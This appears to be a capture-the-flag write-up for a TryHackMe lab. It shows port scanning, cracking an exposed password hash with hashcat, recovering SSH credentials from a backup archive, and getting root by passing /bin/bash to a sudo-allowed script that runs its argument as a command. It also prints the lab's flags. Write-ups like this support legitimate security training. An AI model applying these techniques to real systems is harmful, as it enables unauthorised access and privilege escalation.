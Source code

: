 ### Nmap

```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-02 21:11 IST
Nmap scan report for 10.10.102.51
Host is up (0.13s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dbb270f307ac32003f81b8d03a89f365 (RSA)
|_  256 68e6852f69655be7c6312c8e4167d7ba (ECDSA)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### HTTP

- ferox gives this
```
200      375l      968w    11321c http://10.10.102.51/index.html
301        9l       28w      312c http://10.10.102.51/admin
301        9l       28w      310c http://10.10.102.51/etc
```

- `/etc` has 2 files with the content
`music_archive:$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.`
and
```
auth_param basic program /usr/lib64/squid/basic_ncsa_auth /etc/squid/passwd
auth_param basic children 5
auth_param basic realm Squid Basic Authentication
auth_param basic credentialsttl 2 hours
acl auth_users proxy_auth REQUIRED
http_access allow auth_users
```


- `/admin` has this username in the content
```
My name is Alex and im a music producer from The United Kingdom!  
This is my office!!!
```

- useful data at `http://10.10.102.51/admin/admin.html`

- we can download an archive using

```
http://10.10.102.51/admin/archive.tar
```

- README had 
```
└──╼ $cat README 
This is a Borg Backup repository.
See https://borgbackup.readthedocs.io/

```

- Downloaded and installed the `borgbackup` tool.
refer - [[gpg - Can't check signature and How to install borg or any external binary tool using gpg]]


- When trying to open the borg archive using borg we are prompted for a passphrase

```
─[glack@parrot]─[~/Desktop/THM/cyborg/home/field/dev/final_archive]
└──╼ $borg list .
Enter passphrase for key /home/glack/Desktop/THM/cyborg/home/field/dev/final_archive: 
```

- blank does not work, suspecting `music_archive:$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn` this maybe the password
- Also maybe `archive.tar` is the `music_archive`

- Took a hint from the writeup, used this hashcat command
```
┌─[glack@parrot]─[~/Desktop/THM/cyborg]
└──╼ $hashcat -a 0 -m 1600 hash.txt /usr/share/wordlists/rockyou.txt
```

and got a hit

```
$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.:squidward
```


- When trying to open the `brog` archive this passphrase works

```
─[glack@parrot]─[~/Desktop/THM/cyborg/home/field/dev/final_archive]
└──╼ $borg list .
Enter passphrase for key /home/glack/Desktop/THM/cyborg/home/field/dev/final_archive: 
music_archive                        Tue, 2020-12-29 19:30:38 [f789ddb6b0ec108d130d16adebf5713c29faf19c44cad5e1eeb8ba37277b1c82]
```

this is indeed the music archive


### Shell

- Extracted the music archive using 

```
┌─[✗]─[glack@parrot]─[~/Desktop/THM/cyborg/home/field/dev/final_archive]
└──╼ $borg extract /home/glack/Desktop/THM/cyborg/home/field/dev/final_archive::music_archive


Enter passphrase for key /home/glack/Desktop/THM/cyborg/home/field/dev/final_archive: 
```

now we can see a new folder as extract i.e. `home`


```
┌─[glack@parrot]─[~/Desktop/THM/cyborg/home/field/dev/final_archive/home]
└──╼ $ls -al
total 0
drwx------ 1 glack glack   8 Sep  2 23:50 .
drwxr-xr-x 1 glack glack 100 Sep  2 23:50 ..
drwxr-xr-x 1 glack glack 222 Dec 29  2020 alex
```



- I found creds in the borg backup `Desktop/THM/cyborg/home/field/dev/final_archive/home/alex/Documents`

```
cat note.txt
Wow I'm awful at remembering Passwords so I've taken my Friends advice and noting them down!

alex:S3cretP@s3
```

- SSH into the machine as alex
```
alex@ubuntu:~$ id
uid=1000(alex) gid=1000(alex) groups=1000(alex),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
```


### Priv ESC

- got the user flag
```
alex@ubuntu:~$ cat user.txt
flag{1_hop3_y0u_ke3p_th3_arch1v3s_saf3}
```

- Found out how to get root shell using

```
alex@ubuntu:~$ sudo -l


User alex may run the following commands on ubuntu:
    (ALL : ALL) NOPASSWD: /etc/mp3backups/backup.sh
```

- Read the contents of `backup.sh`

```

while getopts c: flag
do
	case "${flag}" in 
		c) command=${OPTARG};;
	esac
done



cmd=$($command)
echo $cmd

```


this source code suggests we maybe able to run our own commands as root, but we need to understand what it is doing

- Used this https://www.stackchief.com/tutorials/Bash%20Tutorial%3A%20getopts to understand what `getopts c: flag` this was doing

changed my command to 

`lex@ubuntu:/etc/mp3backups$ sudo ./backup.sh -c id`

and got the output of `id`

```
Backup finished
uid=0(root) gid=0(root) groups=0(root)
```

- Ran this command and got root shell

```
alex@ubuntu:/etc/mp3backups$ sudo ./backup.sh -c /bin/bash
```

but was not getting the command outputs, noticed the outputs ere there when trying to exit the root shell


```
root@ubuntu:/etc/mp3backups# id
root@ubuntu:/etc/mp3backups# pwd
root@ubuntu:/etc/mp3backups# cd /root
root@ubuntu:/root# cat root.txt
root@ubuntu:/root# exit
```

after exiting i get

```
exit
uid=0(root) gid=0(root) groups=0(root) /etc/mp3backups flag{Than5s_f0r_play1ng_H0p£_y0u_enJ053d}
```

